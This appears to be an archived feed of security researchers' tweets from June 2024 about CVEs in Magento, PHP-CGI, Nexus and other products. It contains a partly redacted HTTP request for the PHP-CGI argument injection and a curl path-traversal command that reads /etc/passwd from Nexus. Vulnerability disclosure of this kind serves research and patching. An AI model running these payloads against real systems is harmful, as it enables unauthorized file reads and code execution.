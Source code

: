 # chybeta
**https://twitter.com/chybeta/status/1805635705303187718 _at 2024-06-25, 16:14:33_**
<blockquote>
CVE-2024-34102 Pre Auth XXE in magento https://t.co/ZxRCmgc2eu
</blockquote>

<table><tr>
<td><img src="pictures/4acc9b0d21c99d69ee6ac9f25727a29fcf95e3fbb7e765329d345ec649a4df5f.jpg" alt="4acc9b0d21c99d69ee6ac9f25727a29fcf95e3fbb7e765329d345ec649a4df5f.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>227</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1801196898692555138 _at 2024-06-13, 10:16:19_**
<blockquote>
CVE-2024-28995 https://t.co/VsXVXWrvRy
</blockquote>

<table><tr>
<td><img src="pictures/a9df07b73cba5a0e7d00404966185febaf7b454834f4aa932212540b36342ec0.jpg" alt="a9df07b73cba5a0e7d00404966185febaf7b454834f4aa932212540b36342ec0.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>431</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1799078561141375026 _at 2024-06-07, 13:58:48_**
<blockquote>
CVE-2024-4577 PHP CGI Argument Injection

https://t.co/NYGKfQKM4a
</blockquote>

* https://github.com/11whoami99/CVE-2024-4577/blob/88e8aa48f001d9538418783cb16179e5dfc59769/CVE-2024-4577.yaml

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1799007762594324826 _at 2024-06-07, 09:17:29_**
<blockquote>
CVE-2024-4577 in  XAMPP with default Config 

POST /php-cgi/xxxx  HTTP/1.1
xxx: 1

xxxx"dir"xxxx
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>373</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1798928176774791368 _at 2024-06-07, 04:01:14_**
<blockquote>
CVE-2024-29849 is neat :D https://t.co/8CRHiKlhYh
</blockquote>

<table><tr>
<td><img src="pictures/c909f2784cd78b75a74bf16d15bfc25fa2544b2b9f8eaee61f74f654a8aa3201.jpg" alt="c909f2784cd78b75a74bf16d15bfc25fa2544b2b9f8eaee61f74f654a8aa3201.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1797717430338535509 _at 2024-06-03, 19:50:10_**
<blockquote>
PSA: curl can do variables. Example using Nexus CVE-2024-4956:

curl -v --variable hax=////../../../../etc/passwd --expand-url http://127.0.0.2:8081/{{hax:url}}

https://t.co/u0DR4P3hEJ
</blockquote>

* https://everything.curl.dev/cmdline/variables.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---


